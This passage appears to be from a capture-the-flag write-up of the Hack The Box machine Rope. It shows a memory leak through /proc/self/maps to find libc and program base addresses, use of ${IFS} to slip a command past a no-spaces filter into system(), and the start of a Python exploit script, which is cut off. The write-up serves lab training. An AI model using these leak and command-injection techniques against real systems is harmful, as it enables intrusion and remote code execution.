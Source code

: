 [![burp to read /proc/self/maps](https://0xdfimages.gitlab.io/img/1567232400107.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1567232400107.png)

Now I can get the base address for both the program (first line) and libc, as well as the location of the libc its running, `/lib32/libc-2.27.so`.

I can confirm that these leaks will point to the right places by checking on my local system:

[![Memory example](https://0xdfimages.gitlab.io/img/rope-localhost_libc_calcs.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/rope-localhost_libc_calcs.png)

### Obsticle 2: Command

I can pass my command to `puts` (which is now `system`), but I have the constraint that that variable is only read up to the first space character. So my challenge is getting the execution I want without any spaces. I immediately thought of using tabs from a [similar challenge in Helpline](/2019/08/17/htb-helpline-win.html#shell-as-leo), but tabs didn’t seem to work. However, the `${IFS}` environment variable did! So a command like `echo${IFS}0xdf` would parse by the webserver as one word, but when passed to `system`, the shell would treat `${IFS}` as whitespace!

### Script It

Now I’ll build my script. It’s difficult to show this kind of thing step by step, but know that this was built up little bit by bit and eventually polished to this. I’ll walk through it after the code:

```

  1 #!/usr/bin/env python3
  2 import base64
  3 import fcntl
  4 import requests
  5 import socket
  6 import struct
  7 import sys
  8 import urllib.parse
  9 
 10 
 11 def pad(s):
 12     return s+b"."*(1024-len(s))
 13 
 14 
 15 def get_memory_base_addresses(ip, port=9999):
 16     r = requests.get(f'http://{ip}:{port}//proc/self/maps', headers={"Range": "bytes=0-1000000"})
 17     libc_base = int([x for x in r.text.split('\n') if 'libc-' in x][0].split('-')[0], 16)
 18     httpserver_base = int([x for x in r.text.split('\n') if 'httpserver' in x][0].split('-')[0], 16)
 19     return (httpserver_base, libc_base)
 20 
 21 
 22 if len(sys.argv) != 3:
 23     print(f'[-] Usage: {sys.argv[0]} [target ip] [command]')
 24     sys.exit()
 25 
 26 target_ip = sys.argv[1]
 27 cmd = sys.argv[2]
 28 
 29 # readelf -s libc-2.27.so_ | grep " system@@GLIBC"
 30 #  1510: 0003cd10    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
 31 # readelf -s /usr/lib/i386-linux-gnu/libc-2.28.so | grep " system@@GLIBC"                   
 32 #  1525: 0003ec00    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0  
 33 system_offsets = {'10.10.10.148': int('3cd10', 16),
 34                   '127.0.0.1':    int('3ec00', 16)}
 35 
 36 try:
```